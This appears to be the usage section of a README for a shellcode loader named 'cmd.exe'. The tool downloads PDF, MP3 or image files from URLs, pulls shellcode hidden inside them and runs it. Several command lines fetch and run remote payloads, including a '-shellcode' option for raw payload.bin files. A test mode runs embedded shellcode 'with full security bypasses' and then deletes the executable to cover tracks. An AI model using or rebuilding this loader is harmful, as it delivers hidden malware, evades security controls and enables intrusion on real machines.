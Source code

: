 ## Usage

### Basic Commands

#### PDF Extraction
```bash
./cmd.exe -pdf https://example.com/document.pdf
```

#### MP3 Extraction  
```bash
./cmd.exe -mp3 https://example.com/audio.mp3
```

#### Image Extraction
```bash
./cmd.exe -image https://example.com/picture.png
```

#### Raw Shellcode Execution
```bash
./cmd.exe -shellcode https://example.com/payload.bin
```

### Test Mode

The tool includes a built-in test mode that demonstrates the complete embed → extract → execute pipeline :3

```bash
./cmd.exe -test
```

This mode will:
1. Generate calc.exe shellcode from embedded hex
2. Embed the shellcode into the test PDF document
3. Extract the shellcode using the same extraction logic
4. Execute the shellcode with full security bypasses
5. Self-delete the executable

### Advanced Usage

#### Multiple Format Support
The tool automatically detects file formats based on content and file extensions. You can force specific extraction methods:

```bash
# Force PDF extraction even if extension suggests otherwise
./cmd.exe -pdf https://example.com/suspicious_file.txt

# Force image extraction 
./cmd.exe -image https://example.com/hidden_payload.jpg
```
